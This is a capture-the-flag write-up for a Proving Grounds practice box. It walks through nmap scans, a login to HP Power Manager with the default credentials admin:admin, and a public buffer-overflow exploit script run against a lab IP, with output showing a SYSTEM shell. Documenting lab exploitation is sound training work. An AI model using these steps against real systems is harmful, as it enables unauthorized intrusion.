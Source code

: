 ```yaml
---
layout: post
author: H4
---
```


This is an Offensive Security proving grounds practice box.

# enumeration

Starting with a `nmap` scan to identify the attack surface of the target.

## port scan
```bash
$ nmap -p- -Pn 192.168.55.45
Nmap scan report for 192.168.55.45
Host is up (0.000085s latency).
Not shown: 65523 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
3573/tcp  open  tag-ups-1
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49158/tcp open  unknown
49160/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 102.74 seconds

$ nmap -p80,3389,3573,49152 -Pn -sV 192.168.55.45
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-31 13:45 EST
Nmap scan report for 192.168.55.45
Host is up (0.00026s latency).

PORT      STATE SERVICE        VERSION
80/tcp    open  http           GoAhead WebServer
3389/tcp  open  ms-wbt-server?
3573/tcp  open  tag-ups-1?
49152/tcp open  msrpc          Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3389-TCP:V=7.92%I=7%D=12/31%Time=61CF4FE2%P=x86_64-pc-linux-gnu%r(T
SF:erminalServerCookie,13,"\x03\0\0\x13\x0e\xd0\0\0\x124\0\x02\x01\x08\0\x
SF:02\0\0\0");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.65 seconds
```

## OS detection
```bash
$ sudo nmap -Pn -p80 -O 192.168.55.45                                             
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-31 14:28 EST
Nmap scan report for 192.168.55.45
Host is up (0.00052s latency).

PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:50:56:BF:EB:38 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Microsoft Windows 7|2008|8.1
OS CPE: cpe:/o:microsoft:windows_7::- cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_server_2008::sp1 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_8.1
OS details: Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1
Network Distance: 1 hop

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.29 seconds

```

So our target is a `windows` machine and we start by investigating the web server on port 80.

---

# vulnerabilty
## web server (port 80)

On the webserver there is the `Hewlett-Packard (HP) Power Manager Administration` visible.  
Googling for default credentials show the following result.

![default credentials](/images/kevin1.png)

> `admin:admin` can be used to log in.
{: .prompt-info }

After we logged in we see that `hp power manager 4.2 (build 7)` on `windows 7` is used.

## exploitation
Researching on `Google` for an exploit reveals the following result.

![default credentials](/images/kevin2.png)

[Link to exploit](https://github.com/Muhammd/HP-Power-Manager/blob/master/hpm_exploit.py)

After we downloaded the exploit we can simply fire it in the following way.

```bash
$ python2 hpm_exploit.py 192.168.55.45

##//#############################################################################################################
##                                                      ##                                                      #
## Vulnerability: HP Power Manager 'formExportDataLogs' ##  FormExportDataLogs Buffer Overflow                  #
##                                                      ##  HP Power Manager                                    #
## Vulnerable Application: HP Power Manager             ##  This is a part of the Metasploit Module,            #
## Tested on Windows [Version 6.1.7600]                 ##  exploit/windows/http/hp_power_manager_filename      #
##                                                      ##                                                      #
## Author: Muhammad Haidari                             ##  Spawns a shell to same window                       #
## Contact: ghmh@outlook.com                            ##                                                      #
## Website: www.github.com/muhammd                      ##                                                      #
##                                                      ##                                                      #
##//#############################################################################################################
##
##
## TODO: adjust 
##
## Usage: python hpm_exploit.py <Remote IP Address>

[+] Payload Fired... She will be back in less than a min...
[+] Give me 30 Sec!
(UNKNOWN) [192.168.55.45] 1234 (?) open
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

> We got a `nt authority\system` shell!
{: .prompt-info }

```bash
C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
c******************************6
```

Pwned! <@:-)
